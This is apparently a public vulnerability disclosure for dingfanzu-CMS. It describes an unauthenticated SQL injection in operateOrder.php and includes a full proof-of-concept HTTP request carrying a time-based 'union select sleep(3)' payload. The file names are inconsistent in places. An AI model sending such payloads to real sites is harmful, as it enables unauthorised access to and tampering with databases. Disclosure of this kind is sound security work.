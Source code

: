 
# dingfanzu-CMS operateOrder.php shopId SQL-inject

**Exploit Title: dingfanzu-CMS checkOrder.php shopId SQL inject**

**Exploit Author: https://github.com/xiaosguang/cve/blob/main/dingfanzu**

**Vendor Homepage: https://github.com/geeeeeeeek/dingfanzu**

**Software Link: https://github.com/geeeeeeeek/dingfanzu**

**CMSName: dingfanzu-CMS**

**Tested on: Windows, Apache ,Mysql**

**Description**

SQL injection refers to attackers tampering with primitive sentence logic by inputting malicious SQL code. Dingfanzu - CMS's operteOrder.chp does not strictly filter user input and concatenates it into SQL statements. Attackers can construct special inputs, alter the execution results of statements, and achieve illegal data access, modification, and even control of databases..

The path to the vulnerability：/admin/ajax/operateOrder.php
The param to the vulnerability：type=cancel&id=
    Payload used:

```
POST /admin/ajax/operateOrder.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://127.0.0.1/dingfanzu-master/dingfanzu-master/admin/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=4
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

type=cancel&id=1+union+select+sleep(3)--+

```


## Proof of Concept

The parameter 'id' received from the user input is not strictly validated in the operatiteOrder.chp file, and the file can be accessed without authorization for SQL injection attacks.


![image-20250106015104794](https://github.com/user-attachments/assets/2780414f-c453-4396-b332-3b054080ccb6)



Practical verification

![image-20250106021003686](https://github.com/user-attachments/assets/656d9fab-e036-4d83-9bf0-06a19b94a48c)
